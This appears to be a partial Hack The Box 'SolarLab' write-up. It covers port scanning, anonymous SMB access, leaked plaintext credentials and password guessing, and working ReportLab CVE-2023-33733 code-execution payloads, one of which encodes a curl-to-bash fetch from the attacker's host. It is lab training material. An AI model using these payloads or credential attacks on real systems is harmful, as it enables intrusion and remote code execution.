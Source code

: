 # HTB - SolarLab
https://app.hackthebox.com/machines/SolarLab

Target IP: 10.10.11.16

Nmap scan:
PORT    STATE SERVICE
80/tcp  open  http
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

PORT    STATE SERVICE       VERSION
80/tcp  open  http          nginx 1.24.0
|_http-title: Did not follow redirect to http://solarlab.htb/
|_http-server-header: nginx/1.24.0
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2024-07-13T07:28:45
|_  start_date: N/A
|_clock-skew: -7m47s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required

Add host to `/etc/hosts`: 10.10.11.16 solarlab.htb

The website has nothing fun.

Scan for vhost?

ffuf -u http://solarlab.htb -H "Host: FUZZ.solarlab.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -mc 200 -fc 404 -t 40

ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://solarlab.htb -H "Host: FUZZ.solarlab.htb" -c -v -t 50 -fs 169

No vhost found.

ffuf -u https://FUZZ.solarlab.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -v -c -t 40

Enumerate SMB:

Enumerate SMB Shares using Nmap
nmap -p 445 --script smb-enum-shares,smb-enum-users 10.10.11.16

nothing.

List Shares with smbclient
smbclient -L //10.10.11.16 -N

Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
Documents       Disk
IPC$            IPC       Remote IPC

smbclient //10.10.11.16/Documents -N

Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Fri Apr 26 10:47:14 2024
  ..                                 DR        0  Fri Apr 26 10:47:14 2024
  concepts                            D        0  Fri Apr 26 10:41:57 2024
  desktop.ini                       AHS      278  Fri Nov 17 05:54:43 2023
  details-file.xlsx                   A    12793  Fri Nov 17 07:27:21 2023
  My Music                        DHSrn        0  Thu Nov 16 14:36:51 2023
  My Pictures                     DHSrn        0  Thu Nov 16 14:36:51 2023
  My Videos                       DHSrn        0  Thu Nov 16 14:36:51 2023
  old_leave_request_form.docx         A    37194  Fri Nov 17 05:35:57 2023

Downloaded two file: details-file.xlsx old_leave_request_form.docx

Open details-file.xlsx:

Username	Password
Alexander.knight@gmail.com	al;ksdhfewoiuh
KAlexander	dkjafblkjadsfgl
Alexander.knight@gmail.com	d398sadsknr390
blake.byte	ThisCanB3typedeasily1@
AlexanderK	danenacia9234n
ClaudiaS	dadsfawe9dafkn


smbclient //<target_ip>/<share_name> -U <username>
smbclient //10.10.11.16/C -U KAlexander

smbclient //<target_ip>/C$ -U username%password


smbclient //10.10.11.16/C$ -U blake.byte%ThisCanB3typedeasily1@ Failed
smbclient //10.10.11.16/C$ -U AlexanderK%danenacia9234n Failed
smbclient //10.10.11.16/C$ -U ClaudiaS%dadsfawe9dafkn Failed
smbclient //10.10.11.16/C$ -U KAlexander%dkjafblkjadsfgl Failed

smbclient //10.10.11.16/C$ -U Alexander.knight@gmail.com Failed

Need to scan all the ports:
https://github.com/Tib3rius/AutoRecon

With nmap
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
6791/tcp open  hnm

Check port 6791

PORT     STATE SERVICE VERSION
6791/tcp open  http    nginx 1.24.0
|_http-title: Did not follow redirect to http://report.solarlab.htb:6791/
|_http-server-header: nginx/1.24.0

Add to `/etc/hosts`: 10.10.11.16 report.solarlab.htb

![alt text](image.png)


AlexanderK	danenacia9234n
ClaudiaS	dadsfawe9dafkn

2 user login failed with notification: user authentication error. Others failed with user not found.

All credentials are not incorrect. But the format of username is "FirstL".

Regconize Blake.byte is invalid, change it to `BlakeB` with password `ThisCanB3typedeasily1@`and successfully login to the report website.

![alt text](image-1.png)

![alt text](image-2.png)

![alt text](image-3.png)

![alt text](image-4.png)

![alt text](image-5.png)

All the subpage are same. Let check the button `Generate PDF`

![alt text](image-6.png)

It generate a PDF file. It insert my uploaded image to the PDF file.

![alt text](image-8.png)

Found the `reportlab` here.

Search on Google: reportlab exploit and got this repo: https://github.com/c53elyas/CVE-2023-33733

The payload
```html
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('touch /tmp/exploited') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font></para>
```

See the color attribute -> edit the Justification to add the html tag.

![alt text](image-7.png)

Find another poc of CVE-2023-33733

https://github.com/Sudistark/BB-Writeups/blob/main/2023/CVE-2023-33733-rce-via-htmli-in-reportlab.md

```html
<font color="[ [ [ [ ftype(ctype(0, 0, 0, 0, 3, 67, b't\\x00d\\x01\\x83\\x01\\xa0\\x01d\\x02\\xa1\\x01\\x01\\x00d\\x00S\\x00', (None, 'os', 'echo Y3VybCBodHRwOi8vMTAuMTAuMTQuMzI6ODAwMAo= | base64 -d|bash'), ('__import__', 'system'), (), '<stdin>', '', 1, b'\\x12\\x01'), {})() for ftype in [type(lambda: None)] ] for ctype in [type(getattr(lambda: {None}, Word('__code__')))] ] for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))]] and 'red'">exploit</font>
```

Still failed.

https://github.com/L41KAA/CVE-2023-33733-Exploit-PoC

Still failed.


The actual payload is look like this:

```html
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('touch /tmp/exploited') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font></para>
```

Just edit the justification didn't work.
Checking how this website generate the html file.

When send the payload, I get the warning like this:
![alt text](image-9.png)


Need to shorten the payload??? maximum 300 characters

Read Javascript to know how it validate the input
```javascript
const editor = document.getElementById('editor');
const userTextInput = document.getElementById('user_input');
const charCountDisplay = document.getElementById('charCount');
const maxCharacters = 300;

const toolbarOptions = [
    ['bold', 'italic', 'underline', 'strike'],
    ['blockquote', 'code-block'],
    [{ 'header': 1 }, { 'header': 2 }],
    [{ 'list': 'ordered' }, { 'list': 'bullet' }],
    [{ 'indent': '-1' }, { 'indent': '+1' }],
    [{ 'align': [] }],
    ['clean']
];


var quill = new Quill('#editor', {
    theme: 'snow',
    modules: {
        toolbar: toolbarOptions,
    },
});


quill.on('text-change', function () {
    let quillContent = quill.root.innerHTML;
    quillContent = quillContent.replace(/<\/?[^>]+(>|$)/g, ""); // Remove HTML tags
    const charCount = quillContent.length;

    charCountDisplay.textContent = charCount + '/' + maxCharacters + ' characters';

    if (charCount > maxCharacters) {
        quill.deleteText(maxCharacters, charCount - maxCharacters);
    }

    // Update the hidden textarea directly
    userTextInput.value = quillContent;
});

document.addEventListener('DOMContentLoaded', function () {
    const form = document.querySelector('form');

    form.addEventListener('submit', function (event) {
    var fromDate = $("#from").val();
    var toDate = $("#to").val();
    var dateRange = fromDate + " to " + toDate;
    document.getElementById('time_interval').value = dateRange;
    
        userTextInput.value = quill.root.innerHTML;
    });
});

$( function() {
    $( "#from, #to" ).datepicker({ dateFormat: 'yy-mm-dd' });
} );
```